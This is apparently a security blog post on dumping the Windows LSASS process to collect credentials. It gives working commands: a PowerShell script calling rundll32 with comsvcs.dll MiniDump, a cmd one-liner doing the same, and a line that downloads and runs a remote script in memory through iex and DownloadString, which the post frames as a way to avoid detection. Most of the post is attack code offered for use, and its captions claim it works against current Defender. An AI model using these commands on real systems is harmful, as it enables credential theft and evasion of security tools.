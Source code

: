 ```yaml
---
title:  "LSASS Encrypted Dump"
date:   2021-08-13 21:20:00 +0100
categories: [techniques]
tags: [windows, lsass]
---
```



There are many, many ways to dump the LSASS process in order to gather credentials and other sensitive information from systems.

Two ways I dump LSASS can be seen below.

The first way is to invoke comsvcs.dll with rundll32 - here is the original code with added zipping but not compressing the file as to not cuase potential corruption.

```
$processes = Get-Process
$location = Get-Location
$dumpid = foreach ($process in $processes){if ($process.ProcessName -eq "lsass"){$process.id}}
	Write-Host "Found l s a s s process with ID $dumpid - starting dump with rundll32"
	Write-Host "Dumpfile goes to Get-Location\$env:COMPUTERNAME.bin"
	rundll32 C:\Windows\System32\comsvcs.dll, MiniDump $dumpid $location\$env:COMPUTERNAME.bin full | Out-Null
	Compress-Archive -Path $location\$env:COMPUTERNAME.bin -DestinationPath $location\$env:COMPUTERNAME.zip -CompressionLevel NoCompression
```


We can also encode and encrypt the script to make it harder to be detected and run it straight in memory via Invoke Expression.

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/sp00ks-git/PowerShell-Stuff/main/lsass-dump')
```



Another way is by using a for loop as follows:

```
for /f "tokens=1,2 delims= " ^%A in ('"tasklist /fi "Imagename eq lsass.exe" | find "lsass""') do C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump ^%B lsass.dmp full
```




![img-description](/images/lsass-1.png)
_LSASS Dumping with uptodate Defender Definitions"_


![img-description](/images/lsass-2.png)
_executing the script_


